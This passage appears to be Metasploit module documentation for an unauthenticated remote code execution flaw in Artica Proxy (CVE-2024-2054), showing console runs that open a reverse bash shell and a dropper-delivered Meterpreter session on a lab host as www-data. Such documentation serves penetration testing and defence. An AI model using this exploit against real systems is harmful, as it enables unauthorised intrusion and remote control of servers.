 ```shell
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 1
target => 1
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Command shell session 16 opened (192.168.201.8:4444 -> 192.168.201.4:46286) at 2024-03-15 17:48:40 +0000

uname -a
Linux artica-applianc 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Target 2 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```shell
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 2
target => 2
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:1981/U835crbue3yBo
[*] Client 192.168.201.4 (Wget/1.20.1 (linux-gnu)) requested /U835crbue3yBo
[*] Sending payload to 192.168.201.4 (Wget/1.20.1 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.201.4
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Meterpreter session 17 opened (192.168.201.8:4444 -> 192.168.201.4:35246) at 2024-03-15 17:50:04 +0000
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : artica-applianc.domain.tld
OS           : Debian 10.13 (Linux 4.19.0-24-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```

## Limitations
No limitations.
